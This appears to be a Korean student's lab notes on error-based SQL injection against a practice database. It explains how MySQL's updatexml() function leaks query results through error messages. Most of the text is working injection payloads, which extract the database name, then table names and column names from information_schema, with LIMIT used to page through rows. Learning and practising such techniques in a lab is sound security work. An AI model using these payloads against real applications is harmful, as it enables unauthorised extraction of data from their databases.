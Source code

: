 찾아야 하는 것은 논리 에러.

문법 에러는 쉬움. 아무 거나 쓰면 되니까.

SQL Injection 의 목표는 내가 원하는 select 문을 실행시키는 것임.

논리 에러는 실행은 되어야 하니까 (논리적으로 통과되어야 하니까.) 어려움

- updatexml
1' and updatexml(null,concat(0x3a,'test'),null) and '1'='1

and (내가 넣고 싶은 거) and '1'='1

concat = 합치는 함수
0x3a = :

-> 
:test

:test 라는 파일 없는데? 라면서 논리오류를 배출할 것임.

1' and updatexml(null,concat(0x3a,'test'),null) and '1'='1
결과가 논리 에러를 나오면

'test' 부분에 select 문을 치면 가능함

1' and updatexml(null,concat(0x3a,(select 'test')),null) and '1'='1

도 해봐

## (4) DB 이름
1' and updatexml(null,concat(0x3a,(select database())),null) and '1'='1


## (5) table 이름
select '1','2',table_name,'4' from information_schema.tables where table_schema='segfault_sql'

1' and updatexml(null,concat(0x3a,(select '1','2',table_name,'4' from information_schema.tables where table_schema='segfault_sql')),null) and '1'='1

Operand should contain 1 column(s) 의미는   
나는 하나만 출력할 수 있는데 지금 여러 가지 결과가 나와야 할 떄 나오는 오류.

## ** limit 
limit [어디에서 부터],[몇 개]

limit은 order by 처럼 꼭 맨 마지막에 적어야 적용 됨.

selet * from member limit 0,1    
한 줄이 출력


selet * from member limit 2,1    
2번째 데이터만 나옴

select '1','2',table_name,'4' from information_schema.tables where table_schema='segfault_sql' limit 0,1

## (6) column 이름
select '1',column_name,'3','4' from information_schema.columns where table_name='secret' limit 0,1
